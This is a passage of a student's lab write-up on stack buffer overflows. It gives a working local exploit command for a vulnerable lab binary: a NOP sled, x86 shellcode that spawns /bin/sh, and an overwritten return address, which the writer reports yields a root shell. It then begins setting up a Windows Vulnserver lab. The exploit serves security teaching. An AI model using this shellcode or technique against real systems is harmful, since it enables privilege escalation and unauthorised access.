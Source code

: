 
:::info
14. Run the program with our exploit composition: \x90 * the number of NOP sleds + shell code + the memory location that we want to "jump" to execute our code. To do it, we have to overwrite the IP which prescribe which piece of code will be run next.
:::

According to the information gathered above we can construct exploit code.

```bash=
./task3 $(python -c "print('\x90'*(the number of NOP sleds = ((buf + offset to eip and eip) - size of shell code - eip)) + 'shell code' + 'jump to')")
./task3 $(python -c "print('\x90'*(144-46-4)+'\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68' + '\xc8\xcf\xff\xff')")
```


:::info
15. Make sure that you get the root shell on your virtual machine.
:::

On the picture below you can see that this exploit is working fine

<center>

![](https://i.imgur.com/sxHCPE8.png)
    
</center>

---

## Task 4 - Windows remote buffer overflow attack x86

:::spoiler
You can use a Linux virtual machine or your Linux host system (to save compute resources) as the attacker machine. And you might use Windows 10 virtual machine as victim.
:::

:::info
1. Download Windows 10 VM. You can use this link to download Win10 VM for **Oracle VirtualBox**.
:::

I will use `virtual box` and `win 10` machine

:::info
2. Connect your victim VM and attacker host to one network using, for example, bridge adapter in **VirtualBox**.
:::

Mine machines are conected to `br0`
Host 10.1.1.67
Vulnserver 10.1.1.27

<center>

![](https://i.imgur.com/dYhJQKZ.png)
    